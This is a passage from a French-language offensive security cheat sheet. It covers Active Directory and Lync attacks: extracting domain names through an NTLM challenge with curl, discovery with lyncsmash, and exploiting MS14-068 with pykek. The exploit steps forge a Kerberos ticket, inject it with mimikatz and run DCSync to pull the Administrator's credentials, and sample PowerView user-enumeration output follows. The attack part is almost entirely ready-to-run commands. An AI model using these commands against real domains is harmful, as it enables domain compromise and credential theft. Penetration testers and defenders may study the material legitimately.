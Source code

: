 si ça ne fonctionne pas parce que l'entrée en base64 est incorrecte, il est possible d'utiliser :
`curl -sSL -D - -o /dev/null -H 'Authorization: NTLM TlRMTVNTUAABAAAABoIIAAAAAAAAAAAAAAAAAAAAAAA=' https://lync.contoso.local/ | grep '^WWW-Authenticate: NTLM' | cut -d' ' -f3 | base64 -d | strings | grep -v NTLMSSP`

Ensuite à partir du domaine, il est possible de trouver des noms intéressants :
`./lyncsmash.py discover -H contoso.local`

## Utilisation de pykek

* Création du ticket magique via ''pykek''
`./ms14-068.py -u jdupond@domain.local -s S-1-5-21-1862828983-1608356927-24761 -d 192.168.1.1`

* Import du ticket en mémoire via ''mimikatz''
`..\mimikatz_trunk\x64\mimikatz.exe "kerberos::ptc TGT_jdupond@domain.local.ccache" exit`

* Utilisation du ticket (pour faire un ''dcsync'' par exemple)
`..\mimikatz_trunk\x64\mimikatz.exe "lsadump::dcsync /domain:domain.local /user:Administrateur" exit`

* Profit!

``` text

PS C:\Users\user\Downloads\PowerSploit\Recon> Get-NetUser -UserName jdupond -Domain domain.local -DomainController 192.168.1.1


instancetype           : 4
usnchanged             : 184382338
badpasswordtime        : 24/01/2016 15:16:50
codepage               : 0
countrycode            : 0
objectguid             : a3e48d94-bd7b-429b-bd15-a19bbbc4e91c
samaccountname         : jdupond
usncreated             : 184258295
displayname            : SECURITY jdupond
dscorepropagationdata  : 01/01/1601 00:00:00
memberof               : CN=APPLI_User,OU=APPLI,OU=Groupes Applicatifs,OU=OU
                         Admin,DC=domain,DC=local
pwdlastset             : 24/01/2016 14:57:02
objectclass            : {top, person, organizationalPerson, user}
useraccountcontrol     : 512
logoncount             : 1
lockouttime            : 0
lastlogon              : 24/01/2016 15:33:31
whenchanged            : 24/01/2016 14:39:14
adspath                : LDAP://192.168.1.1/CN=SECURITY jdupond,OU=DOMAIN,OU=OU Ut
                         ilisateurs,DC=domain,DC=local
lastlogontimestamp     : 23/01/2016 11:04:28
givenname              : jdupond
name                   : SECURITY jdupond
userprincipalname      : jdupond@domain.local
lastlogoff             : 01/01/1601 01:00:00
whencreated            : 22/01/2016 08:19:56
mail                   : jdupond@domain.fr
samaccounttype         : 803685306
distinguishedname      : CN=SECURITY jdupond,OU=DOMAIN,OU=OU Utilisateurs,DC=dom
                         ain,DC=local
msds-authenticatedatdc : CN=SRV0028,OU=Domain Controllers,DC=domain,DC=local
primarygroupid         : 513
badpwdcount            : 0
objectcategory         : CN=Person,CN=Schema,CN=Configuration,DC=domain,DC=local
cn                     : SECURITY jdupond
objectsid              : S-1-5-21-1862828983-1608356927-24761
sn                     : SECURITY
```